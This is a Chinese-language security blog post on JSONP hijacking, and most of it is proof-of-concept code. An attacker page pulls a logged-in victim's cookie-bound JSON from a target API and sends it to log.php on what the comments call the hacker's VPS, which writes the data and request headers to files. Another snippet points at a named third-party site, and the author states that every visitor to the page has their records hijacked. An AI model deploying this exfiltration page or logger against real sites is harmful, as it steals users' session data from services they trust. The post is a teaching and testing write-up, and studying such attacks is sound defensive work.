 ```yaml
---
layout:     post
title:      jsonp漏洞
date:       2018-12-28
author:     Wh0ale
header-img: img/homesick_by_wlop-d8vlh61.jpg
catalog: true
tags:
    - csrf
---
```




① 用户携带cookie访问放置在黑客服务器的页面

jsonp.html

```
<script type="text/javascript" src="http://www.w3school.com.cn/jquery/jquery-1.11.1.min.js"></script>

<script type="text/javascript">

$.getJSON("http://127.0.0.1/csrf/api.php?calback=?", function(json){
	// 这里填写目标接口

var data=JSON.stringify(json);

$.get("http://127.0.0.1/csrf/log.php?mylogs="+data,function(res,status){
//将data转发记录,访问log.php
//注意 这里写的是黑客vps的ip，由于是测试，我写127.0.0.1

alert ('ok') ;
//如果返回的jsonp的json数组，不是一个json对象。
//使用 alert(result[0].admin)

});
});
</script>
```

```
<!-- 引用一段如上请求为JS -->
<script>function jsonp2(data){alert(JSON.stringify(data));}</script>
<script src="http://gh0st.cn/user/center?callback=jsonp2"></script>
```

api.php

这里模拟靶机的接口

```
<?php
header('Content-type:application/json');
echo $_GET['callback']."({\"admin\":\"".$_COOKIE['admin']."\"})"
?>
```

log.php

将json数据转存

```
<?php
	$time = date("Y_m_d_h_i_s");
	$filename = $time."_".rand(1,29999).".txt";
	$log = $_GET[mylogs];
	$httpheader = "HTTP_HEADER\r\n";
	foreach (getallheaders() as $name => $value){
		$httpheader = $httpheader."$name: $value\r\n";
	}
	echo file_put_contents(filename, $httpheader."\r\n".$log);

?>
```

②凡访问加载这个poc的页面的用户，他的投诉记录都会被我直接劫持，并且做记录



之前在cors漏洞写到的开源脚本在这也可以配合使用

接下来准备深入挖掘csrf类的漏洞

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fylhxn4c2qj211z0ikacc.jpg)